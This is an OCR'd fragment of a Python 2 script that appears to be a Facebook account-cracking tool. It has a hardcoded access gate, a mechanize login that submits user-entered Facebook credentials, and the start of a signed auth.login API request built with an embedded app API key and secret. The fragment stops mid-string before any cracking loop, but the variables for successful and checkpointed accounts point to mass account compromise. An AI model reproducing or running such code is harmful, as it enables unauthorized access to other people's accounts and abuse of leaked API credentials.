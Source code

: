 
back = 0
berhasil = []
cekpoint = []
oks = []
id = []
listgrup = []
vulnot = "\033[31mNot Vuln"
vuln = "\033[32mVuln"
os.system("clear")
print logo

CorrectUsername = "Nazmul"
CorrectPassword = "Tufan"

loop = 'true'
while (loop == 'true'):
    username = raw_input("\033[1;97mEnter Username \x1b[1;97m: \x1b[1;97m")
    if (username == CorrectUsername):
    	password = raw_input("\033[1;97mEnter Passcode \x1b[1;97m: \x1b[1;97m")
        if (password == CorrectPassword):
            print "\033[1;97mAccess Granted "#Dev:Nazmul_Tufan
	    time.sleep(1)
            loop = 'false'
        else:
            print "\033[1;97mACCESS DENIED"
            os.system('xdg-open https://www.facebook.com/access.darkweb.hacker')
    else:
        print "\033[1;97mACCESS DENIED"
        os.system('xdg-open https://www.facebook.com/access.darkweb.hacker')
def login():
	os.system('clear')
	try:
		toket = open('login.txt','r')
		menu() 
	except (KeyError,IOError):
		os.system('clear')
		print logo
     	
		
		jalan(' \033[1;97m   ✧ \033[1;97mWarning: \033[1;97mUse a New Account To Login' )
		jalan(' \033[1;97m   ✧ \033[1;97m👉 : \033[1;97mNazmul King Of Facebook' ) 
		
		print('	' )
		print('      \033[1;97m      ✧ \x1b[1;97mLogin With Facebook\x1b[1;97m ✧')
		print('	' )
		id = raw_input('\033[1;97m✧ \x1b[1;97mID/Email\x1b[1;97m: \x1b[1;97m')
		pwd = raw_input('\033[1;97m✧ \x1b[1;97mPassword\x1b[1;97m: \x1b[1;97m')
		try:
			br.open('https://m.facebook.com')
		except mechanize.URLError:
			print"\n\x1b[1;97mThere is no internet connection"
			keluar()
		br._factory.is_html = True
		br.select_form(nr=0)
		br.form['email'] = id
		br.form['pass'] = pwd
		br.submit()
		url = br.geturl()
		if 'save-device' in url:
			try:
				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'